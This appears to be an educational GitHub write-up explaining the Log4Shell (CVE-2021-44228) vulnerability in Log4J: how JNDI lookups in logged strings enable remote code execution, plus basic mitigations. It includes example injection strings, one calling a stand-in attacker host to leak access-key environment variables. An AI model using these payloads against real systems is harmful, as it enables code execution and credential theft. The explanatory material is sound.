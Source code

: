 # How did the Log4J vulnerability become the threat that it was?


## What is Log4J?
Log4J is a widely used open source java logging library originally written by Ceki Gülcü. It is used in most moderately sized Java projects. It can be used to track thing like error messages or debug messages, which are then stored or *logged*. Apache describes Log4J as follows:
> log4j is a tool to help the programmer output log statements to a variety of output targets.In case of problems with an application, it is helpful to enable logging so that the problem can be located. With log4j it is possible to enable logging at runtime without modifying the application binary. The log4j package is designed so that log statements can remain in shipped code without incurring a high performance cost. It follows that the speed of logging (or rather not logging) is capital.

> log4j is designed with three goals in mind: reliability, speed and flexibility. There is a tight balance between these requirements. We believe that log4j strikes the right balance.




## Why is Log4Shell a big deal?
Log4Shell (CVE-2021-44228) is a nickname for an severe vulnerability in Log4J. The vulnerability has existed since 2013, and was only "discovered" and privately disclosed to the [Apache Software Foundation](https://en.wikipedia.org/wiki/The_Apache_Software_Foundation) on 24 November 2021. According to the Common Vulnerability Scoring System ([CVSS](https://nvd.nist.gov/vuln-metrics/cvss)) this vulnerability scores a 10/10 for it's severity. This is because this vulnerability enables Remote Code Execution (RCE). Which allows hackers to be able to run any code on your machine. This is also why it is called Log4Shell, because it's almost like anyone can open a [Shell](https://datacarpentry.org/shell-genomics/01-introduction/) on any server that uses Log4J.

According to Snyk, an open source security platform, 60.8% of java projects that use Log4J use it indirectly. Which means that the project has libraries that in turn use Log4J. So even developers that can't directly see that they are using Log4J aren't safe from the vulnerability.
![image](https://user-images.githubusercontent.com/77112006/147350753-63dac8cd-8d3b-4244-ade5-ea239dde1b3c.png)
source: https://snyk.io/blog/log4j-vulnerability-software-supply-chain-security-log4shell/

## How does Log4Shell work?
There are several factors, which together are responsible for the vulnerability. So first we'll have a look at some features wihtin Log4J, and then we'll illustrate how the vulnerability works.

### Logging expressions
Log4J allows developers to log expressions. See the code below
```java
logger.info("{} has logged in using id {}", map.get("Name"), user.getId());
```
In this example you're logging a string. And you're plugging the value that gets returned from ```map.get("Name")``` and ```user.getId()``` into that string. On itself, this isn't a problem.

### JNDI
Java Naming and Directory Interface (JNDI) is a java feature that allows distributed applications to look up services in an abstract, resource-independent way. Allowing a developer to store java objects somewhere, and then serialize them to their JVM. This is the way that distributed java application used to work, but this way of distributing has fallen out of fashion some time ago. Nevertheless, this features still remains in java today.

### JNDI lookup while logging expressions
In 2013, a cotributer made a change to Log4J that allowed the developer to do the above described JNDI lookups in a log message. making the code below possible
```java
logger.info("{} has logged in using id {}", "${jndi:ldap://logconfig/example/name}", user.getId());
```
This is the vulnerability. Let's say a vulnerable application logs a users input. A user could then input a string like ```${jndi:ldap://myserver/malicious_code}```. Log4J will see this and try to look up this JNDI. Which would then introduce a malicious java object into the JVM.  

## How did Log4Shell get discovered?


## What are the potential fixes for severe vulnerabilities like Log4Shell?
First of all, the are some simple mitigations which can stop some of the damage being done to your application. The first one is to disable lookups by setting the following flags to false.
```
com.sun.jndi.ldap.object.trustURLCodebase
com.sun.jdni.rmi.object.trustURLCodebase
```
This however won't stop your application from actually making the call. It only stops the contents of that call from doing anything. This still enables hackers to make your application leak it's environment variables, like in the code below:
```java
${jndi:ldap://malicious_atacker:123/${env:ACCES_KEY_ID}/${env:SECRET_ACCES_KEY}}
```





![image](https://user-images.githubusercontent.com/77112006/147350117-701b817a-cda4-412c-b85e-89865f4fa72d.png)

## How did affected developers deal with it?

Sources:
- [Log4J Vulnerability (Log4Shell) Explained - for Java developers. (2021, 16 december). [Video]. YouTube.](https://www.youtube.com/watch?v=uyq8yxWO1ls&t=1037s&ab_channel=JavaBrains)
- [Tal, L. (2021, 20 december). The Log4j vulnerability and its impact on software supply chain security. Snyk. Geraadpleegd op 24 december 2021](https://snyk.io/blog/log4j-vulnerability-software-supply-chain-security-log4shell/)
- [Apache log4j 1.2 - Frequently Asked Technical Questions. (z.d.). Apache. Geraadpleegd op 24 december 2021]( https://logging.apache.org/log4j/1.2/faq.html)
-  [Yan, Tao; Deng, Qi; Zhang, Haozhe; Fu, Yu; Grunzweig, Josh (10 December 2021). "Another Apache Log4j Vulnerability Is Actively Exploited in the Wild (CVE-2021-44228)".](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
-  [NVD - Vulnerability Metrics. (z.d.). NVD. Geraadpleegd op 24 december 2021](https://nvd.nist.gov/vuln-metrics/cvss)
-  [What is JNDI? What is its basic use? When is it used? (2010, 6 december). Stack Overflow. Geraadpleegd op 27 december 2021](https://stackoverflow.com/questions/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used)
